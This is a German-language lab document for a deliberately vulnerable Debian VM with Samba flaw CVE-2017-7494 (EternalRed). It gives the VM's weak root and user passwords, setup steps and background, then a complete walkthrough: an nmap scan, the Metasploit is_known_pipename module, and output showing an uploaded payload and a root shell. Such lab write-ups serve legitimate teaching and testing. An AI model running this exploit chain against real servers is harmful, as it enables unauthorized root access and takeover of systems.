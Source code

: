 # Dokumentation

## VM
### Passwort
root:toor
user:resu

### Infos
Debian 9, 64 bit

### Installation
```console
# mkdir /tmp/install
# mv install.sh /tmp/install
# cd /tmp/install
# bash install.sh
# reboot
```
Für mehr Infos siehe install.sh

https://www.miltonsecurity.com/company/blog/eternalred-cve-2017-7494

# Hintergrund zur Schwachstelle
Zur Zeit der Veröffentlichung kam die Frage auf, ob EternalRed das gleiche Risiko darstellen könnte wie WannaCry bzw. EternalBlue, denn sie weist einige Ähnlichkeiten auf.
Dennoch gibt es einige wesentliche Unterschiede. 
Ähnlich wie die von WannaCry ausgenutzte Schwachstelle zielt diese Schwachstelle auf SMB ab, wenn auch eine andere Implementierung des Protokolls. Sie birgt auch die Gefahr, "wormable" (wurmhaft) zu sein, d.h. Malware kann sie nutzen, um sich automatisch von System zu System zu verbreiten.

EternalRed ist jedoch nach wie vor viel schwieriger auszunutzen, da sie nicht nur veraltete Software, sondern auch eine bestimmte Konfiguration erfordert, wie z.B. anonymer Schreibzugriff auf einen Share. 
Beispiele wie diese Samba-Schwachstelle verstärken jedoch weiterhin die anhaltende Notwendigkeit einer kontinuierlichen Sicherheitstransparenz, um Patches und Systemkonfigurationsupdates zu priorisieren, und für vollständige Datensicherungen kritischer Dateien, um die Ausfallsicherheit des Unternehmens zu gewährleisten.

https://blog.qualys.com/securitylabs/2017/05/26/samba-vulnerability-cve-2017-7494

# Exploit
## msfconsole use linux/samba/is_known_pipename
https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/samba/is_known_pipename.rbv

```console
# nmap 10.0.2.14 -sV -p-

Starting Nmap 7.60 ( https://nmap.org ) at 2019-05-21 20:22 CEST
Nmap scan report for 10.0.2.14
Host is up (0.00023s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: MIN-DEB-PROTO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

# msfconsole

msf> search samba
[...]
exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
[...]

msf> use exploit/linux/samba/is_known_pipename
msf exploit(linux/samba/is_known_pipename) > show options 

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS                           yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)
msf exploit(linux/samba/is_known_pipename) > set rhosts 10.0.2.14
rhosts => 10.0.2.14
msf exploit(linux/samba/is_known_pipename) > run

[*] 10.0.2.14:445 - Using location \\10.0.2.14\Share\ for the path
[*] 10.0.2.14:445 - Retrieving the remote path of the share 'Share'
[*] 10.0.2.14:445 - Share 'Share' has server-side path '/tmp
[*] 10.0.2.14:445 - Uploaded payload to \\10.0.2.14\Share\graTaYLq.so
[*] 10.0.2.14:445 - Loading the payload from server-side path /tmp/graTaYLq.so using \\PIPE\/tmp/graTaYLq.so...
[-] 10.0.2.14:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.0.2.14:445 - Loading the payload from server-side path /tmp/graTaYLq.so using /tmp/graTaYLq.so...
[+] 10.0.2.14:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (10.0.2.5:39481 -> 10.0.2.14:445) at 2019-05-21 20:26:02 +0200

whoami
root

```

